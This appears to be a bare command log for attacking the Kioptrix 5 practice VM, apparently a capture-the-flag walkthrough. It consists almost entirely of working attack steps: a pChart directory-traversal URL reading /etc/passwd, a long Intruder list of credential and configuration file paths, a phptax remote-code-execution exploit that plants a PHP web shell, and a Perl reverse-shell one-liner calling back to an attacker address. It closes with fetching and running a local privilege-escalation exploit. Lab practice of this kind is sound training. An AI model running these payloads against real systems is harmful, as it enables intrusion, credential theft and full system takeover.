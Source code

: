 Commands:

ufs:/dev/ada0p2

netdiscover -i eth1

nmap -p- -A (Kioptrix 5 IP)

http://(Kioptrix 5 IP)/pChart2.1.3

http://(Kioptriix 5 IP)/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd

Intruder Payloads:
/home/users/web/b1286/ipg.roksbox/home/index.php
/etc/issue
/etc/motd
/etc/passwd
/etc/passwd
/etc/shadow
/etc/group
/etc/security/group
/etc/security/passwd
/etc/security/user
/etc/security/environ
/etc/security/limits
/usr/lib/security/mkuser.default
/apache/logs/error.log
/apache/logs/access.log
/etc/httpd/logs/access.log
/etc/httpd/logs/error_log
/var/www/logs/access_log
/var/www/logs/error.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/access.log
/usr/local/apache/logs/error_log
/usr/local/apache/logs/error.log
/var/log/apache/access_log
/var/log/apache2/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/access_log
/var/log/access.log
/var/www/logs/error_log
/var/www/logs/error.log
/var/log/httpd/access_log
/var/log/httpd/error_log
/var/log/httpd/access_log
/var/log/httpd/error_log
/apache2/logs/error.log
/apache2/logs/access.log
/logs/error.log
/logs/access.log
/logs/error_log
/logs/access_log
/usr/local/apache2/logs/access_log
/usr/local/apache2/logs/access.log
/usr/local/apache2/logs/error_log
/usr/local/apache2/logs/error.log
/opt/lampp/logs/access_log
/opt/lampp/logs/error_log
/opt/xampp/logs/access_log
/opt/xampp/logs/error_log
/opt/lampp/logs/access.log
/opt/lampp/logs/error.log
/opt/xampp/logs/access.log
/opt/xampp/logs/error.log
/Program Files\Apache Group\Apache\logs\access.log
/Program Files\Apache Group\Apache\logs\error.log
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/etc/httpd/conf/httpd.conf
/etc/apache/conf/httpd.conf
/usr/local/etc/apache/conf/httpd.conf
/etc/apache2/httpd.conf
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/httpd.conf
/usr/local/apache2/httpd.conf
/usr/local/httpd/conf/httpd.conf
/usr/local/etc/apache/conf/httpd.conf
/usr/local/etc/apache2/conf/httpd.conf
/usr/local/etc/httpd/conf/httpd.conf
/usr/apache2/conf/httpd.conf
/usr/apache/conf/httpd.conf
/usr/local/apps/apache2/conf/httpd.conf
/usr/local/apps/apache/conf/httpd.conf
/etc/apache/conf/httpd.conf
/etc/apache2/conf/httpd.conf
/etc/httpd/conf/httpd.conf
/etc/http/conf/httpd.conf
/etc/apache2/httpd.conf
/etc/httpd/httpd.conf
/etc/http/httpd.conf
/etc/httpd.conf
/opt/apache/conf/httpd.conf
/opt/apache2/conf/httpd.conf
/var/www/conf/httpd.conf
/private/etc/httpd/httpd.conf
/private/etc/httpd/httpd.conf.default
/Volumes/webBackup/opt/apache2/conf/httpd.conf
/Volumes/webBackup/private/etc/httpd/httpd.conf
/Volumes/webBackup/private/etc/httpd/httpd.conf.default
/Program Files\Apache Group\Apache\conf\httpd.conf
/Program Files\Apache Group\Apache2\conf\httpd.conf
/Program Files\xampp\apache\conf\httpd.conf
/usr/local/php/httpd.conf.php
/usr/local/php4/httpd.conf.php
/usr/local/php5/httpd.conf.php
/usr/local/php/httpd.conf
/usr/local/php4/httpd.conf
/usr/local/php5/httpd.conf
/Volumes/Macintosh_HD1/opt/httpd/conf/httpd.conf
/Volumes/Macintosh_HD1/opt/apache/conf/httpd.conf
/Volumes/Macintosh_HD1/opt/apache2/conf/httpd.conf
/Volumes/Macintosh_HD1/usr/local/php/httpd.conf.php
/Volumes/Macintosh_HD1/usr/local/php4/httpd.conf.php
/Volumes/Macintosh_HD1/usr/local/php5/httpd.conf.php
/usr/local/etc/apache/vhosts.conf
/etc/php.ini
/bin/php.ini
/etc/httpd/php.ini
/usr/lib/php.ini
/usr/lib/php/php.ini
/usr/local/etc/php.ini
/usr/local/lib/php.ini
/usr/local/php/lib/php.ini
/usr/local/php4/lib/php.ini
/usr/local/php5/lib/php.ini
/usr/local/apache/conf/php.ini
/etc/php4.4/fcgi/php.ini
/etc/php4/apache/php.ini
/etc/php4/apache2/php.ini
/etc/php5/apache/php.ini
/etc/php5/apache2/php.ini
/etc/php/php.ini
/etc/php/php4/php.ini
/etc/php/apache/php.ini
/etc/php/apache2/php.ini
/web/conf/php.ini
/usr/local/Zend/etc/php.ini
/opt/xampp/etc/php.ini
/var/local/www/conf/php.ini
/etc/php/cgi/php.ini
/etc/php4/cgi/php.ini
/etc/php5/cgi/php.ini
/php5\php.ini
/php4\php.ini
/php\php.ini
/PHP\php.ini
/WINDOWS\php.ini
/WINNT\php.ini
/apache\php\php.ini
/xampp\apache\bin\php.ini
/NetServer\bin\stable\apache\php.ini
/home2\bin\stable\apache\php.ini
/home\bin\stable\apache\php.ini
/Volumes/Macintosh_HD1/usr/local/php/lib/php.ini
/usr/local/cpanel/logs
/usr/local/cpanel/logs/stats_log
/usr/local/cpanel/logs/access_log
/usr/local/cpanel/logs/error_log
/usr/local/cpanel/logs/license_log
/usr/local/cpanel/logs/login_log
/usr/local/cpanel/logs/stats_log
/var/cpanel/cpanel.config
/var/log/mysql/mysql-bin.log
/var/log/mysql.log
/var/log/mysqlderror.log
/var/log/mysql/mysql.log
/var/log/mysql/mysql-slow.log
/var/mysql.log
/var/lib/mysql/my.cnf
/etc/mysql/my.cnf
/etc/my.cnf
/etc/logrotate.d/proftpd
/www/logs/proftpd.system.log
/var/log/proftpd
/etc/proftp.conf
/etc/protpd/proftpd.conf
/etc/vhcs2/proftpd/proftpd.conf
/etc/proftpd/modules.conf
/var/log/vsftpd.log
/etc/vsftpd.chroot_list
/etc/logrotate.d/vsftpd.log
/etc/vsftpd/vsftpd.conf
/etc/vsftpd.conf
/etc/chrootUsers
/var/log/xferlog
/var/adm/log/xferlog
/etc/wu-ftpd/ftpaccess
/etc/wu-ftpd/ftphosts
/etc/wu-ftpd/ftpusers
/usr/sbin/pure-config.pl
/usr/etc/pure-ftpd.conf
/etc/pure-ftpd/pure-ftpd.conf
/usr/local/etc/pure-ftpd.conf
/usr/local/etc/pureftpd.pdb
/usr/local/pureftpd/etc/pureftpd.pdb
/usr/local/pureftpd/sbin/pure-config.pl
/usr/local/pureftpd/etc/pure-ftpd.conf
/etc/pure-ftpd.conf
/etc/pure-ftpd/pure-ftpd.pdb
/etc/pureftpd.pdb
/etc/pureftpd.passwd
/etc/pure-ftpd/pureftpd.pdb
/usr/ports/ftp/pure-ftpd/
/usr/ports/net/pure-ftpd/
/usr/pkgsrc/net/pureftpd/
/usr/ports/contrib/pure-ftpd/
/var/log/pure-ftpd/pure-ftpd.log
/logs/pure-ftpd.log
/var/log/pureftpd.log
/var/log/ftp-proxy/ftp-proxy.log
/var/log/ftp-proxy
/var/log/ftplog
/etc/logrotate.d/ftp
/etc/ftpchroot
/etc/ftphosts
/var/log/exim_mainlog
/var/log/exim/mainlog
/var/log/maillog
/var/log/exim_paniclog
/var/log/exim/paniclog
/var/log/exim/rejectlog
/var/log/exim_rejectlog
/home/users/web/b1286/ipg.roksbox/index.php

http://(Kioptrix 5)/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf

http://(Kioptrix 5):8080

use exploit/multi/http/phptax_exec
set RHOSTS (Kioptrix 5)
set RPORT 8080
run

http://(Kioptrix 5):8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E

http://(Kioptrix 5):8080/phptax/data/rce.php?cmd=id

http://(Kioptrix 5):8080/phptax/data/rce.php?cmd=perl%20-MIO%20-e%20%27$c=new%20IO::Socket::INET(PeerAddr,%22192.168.56.101:4444%22);STDIN-%3Efdopen($c,r);$~-%3Efdopen($c,w);system$_%20while%3C%3E;%27

uname -a

nc -nlvp 4445 < 28718.c

nc -nv (Kali IP) 4445 > 28718.c

gcc 28718.c -o 28718

chmod +x 28718

./28718


URLs:
https://www.cyberciti.biz/faq/freebsd-apache-web-server-tutorial/
https://www.exploit-db.com/exploits/28718